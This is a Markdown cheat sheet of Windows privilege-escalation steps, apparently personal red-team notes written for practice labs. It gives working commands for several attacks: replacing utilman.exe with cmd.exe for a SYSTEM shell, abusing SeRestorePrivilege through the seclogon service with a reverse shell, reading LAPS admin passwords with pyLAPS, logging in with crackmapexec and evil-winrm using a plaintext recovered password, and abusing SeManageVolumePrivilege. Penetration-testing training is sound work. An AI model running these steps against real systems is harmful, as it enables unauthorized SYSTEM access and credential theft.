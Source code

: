 Check privileges:
`whoami /priv`

## SeRestorePrivilege
### With GUI
1. Launch PowerShell/ISE with the SeRestore privilege present.
2. Enable the privilege with Enable-SeRestorePrivilege.ps1.
3. Rename utilman.exe to utilman.old
4. Rename cmd.exe to utilman.exe
5. Lock the console and press Win+U

### Without GUI
1. Identify a manual start service on the target machine:
	`cmd.exe /c sc queryex state=all type=service`, OR
	`Get-Service | findstr -i "manual"`, OR
	`gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select PathName,DisplayName,Name`, OR
	`gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "manual"} | select PathName,DisplayName,Name`
2. If the above commands don't work, can try to target the service `seclogon`, which should have manual restart privileges for all users
	`reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\seclogon`
	- If have `Start    REG_DWORD    0x3`, means can manual restart. Good to go!
	- Alternative command: `cmd.exe /c sc qc seclogon`
3. Check that we have the correct permissions to manipulate the service:
	`cmd.exe /c sc sdshow seclogon`
	- Example output: `D:(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)(A;;CCLCSWRPDTLOCRRC;;;IU)(A;;CCLCSWDTLOCRRC;;;SU)(A;;CCLCSWRPDTLOCRRC;;;AU)`
	- Look for `RP` in the bracket ending with `AU`
4. Transfer exploit tool https://github.com/dxnboy/redteam/blob/master/SeRestoreAbuse.exe (source: https://github.com/xct/SeRestoreAbuse/tree/main) to the target machine. This exploit uses `seclogon`.
5. Use tool with reverse shell command to get a reverse shell as System

ALTERNATIVE METHOD
1. Enable the privilege with Enable-SeRestorePrivilege.ps1
2. On target machine, go to `C:\Windows\system32`
3. Rename Utilman.exe to Utilman.old:
	`ren Utilman.exe Utilman.old`
4. Rename cmd.exe to Utilman.exe:
	`ren cmd.exe Utilman.exe`
5. Open an RDP session (unauthenticated is fine):
	`rdesktop [target ip]`
6. Press windows key + u
7. System cmd get!

## \[AD] ReadLAPSPassword
The user can read the Local Admin's password

(from Linux) Tool: https://github.com/p0dalirius/pyLAPS
`pyLAPS.py --action get -d "DOMAIN" -u "ControlledUser" -p "ItsPassword"`

After getting the password, can use it with the Local Admin user account.

Ensure password works:
`crackmapexec smb hutch.offsec -u 'Administrator' -p 'u$#3pTiLU0(e!C'`

evil-winrm:
`evil-winrm -i 192.168.186.122 -u Administrator`
then supply the password

## SeManageVolumePrivilege

1. Run the .exe file from https://github.com/CsEnox/SeManageVolumeExploit
2. Run `icacls C:/Windows`. Check that Builtin Users have full permission. 
```           
BUILTIN\Users:(M)
BUILTIN\Users:(OI)(CI)(IO)(F)
```
Then exploit the write privileges:
- Use https://github.com/sailay1996/WerTrigger to exploit the write privileges
- Use https://github.com/xct/SeManageVolumeAbuse to exploit the write privileges 
	1. https://systemweakness.com/proving-grounds-practise-active-directory-box-access-79b1fe662f4d

